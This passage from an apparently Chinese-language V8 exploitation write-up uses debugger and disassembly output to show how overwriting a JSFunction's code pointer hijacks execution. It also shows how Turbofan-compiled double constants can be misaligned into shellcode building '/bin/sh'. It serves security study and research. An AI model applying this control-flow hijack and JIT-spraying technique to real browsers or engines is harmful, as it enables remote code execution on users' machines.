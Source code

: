 ```
0x326200004f4d     d  cc                   int3l
0x326200004f4e     e  cc                   int3l
0x326200004f4f     f  cc                   int3l

Instructions (size = 1112)
0x326207e8d6c0     0  55                   push rbp
0x326207e8d6c1     1  4889e5               REX.W movq rbp,rsp
0x326207e8d6c4     4  6a1e                 push 0x1e
0x326207e8d6c6     6  4883ec20             REX.W subq rsp,0x20
...
```

由此可知 Code object 紀錄 function 實際要執行的 instruction 的相關訊息，而如果將 `JSFunction` 的 code object pointer 改成 `0x414141` (與 base address 的 offset)，在呼叫 function 時會 trigger segmentation fault：

```
0xdea07e8206b    test   dword ptr [rcx + 0x1b], 0x20000000
0xdea07e82072    jne    0xdea07e82081                 <0xdea07e82081>

0xdea07e82078    add    rcx, 0x3f
0xdea07e8207c    jmp    0xdea07e8208c                 <0xdea07e8208c>
↓
0xdea07e8208c    jmp    rcx
```

觀察 asm 可以發現在後來會跳到 rcx+0x3f 上面去執行，然而 rcx 的 value 會是 `0xdea00414141`，也就是 code object 的位址，至此我們已經知道如果蓋寫 `JSFunction` 的成員 `code`，就可以控制程式的執行流程了。

透過 Turbofan JITer 產生的 instruction 會長得像：

```
pwndbg> x/5i 0xf63000440b2
   0xf63000440b2:       movabs r10,0x9090582f62696e
   0xf63000440bc:       vmovq  xmm0,r10
   0xf63000440c1:       vmovsd QWORD PTR [rcx+0xf],xmm0
   0xf63000440c6:       movabs r10,0x90905a2f736800
   0xf63000440d0:       vmovq  xmm0,r10
pwndbg> x/5i 0xf63000440b3
   0xf63000440b3:       mov    edx,0x2f62696e
   0xf63000440b8:       pop    rax
   0xf63000440b9:       nop
   0xf63000440ba:       nop
   0xf63000440bb:       add    ah,al
pwndbg> x/5i 0xf63000440c7
   0xf63000440c7:       mov    edx,0x2f736800
   0xf63000440cc:       pop    rdx
   0xf63000440cd:       nop
   0xf63000440ce:       nop
   0xf63000440cf:       add    ah,al
```

- `0xf63000440b3 ` 與 `0xf63000440c7` 原本為 double value，不過在偏移後也被視為 instruction 的開頭，因此我們可以構造出任意的 shellcode
  - 最後要執行的 instruction 必須為 jmp (2 bytes)，因此一組 instructions 最多只能到 6 bytes
- `%OptimizeFunctionOnNextCall()` 可以幫助我們讓 function 更快被 JIT；而在執行此 function 前需要執行 `%PrepareFunctionForOptimization()` 來準備 function 的 FeedbackVector
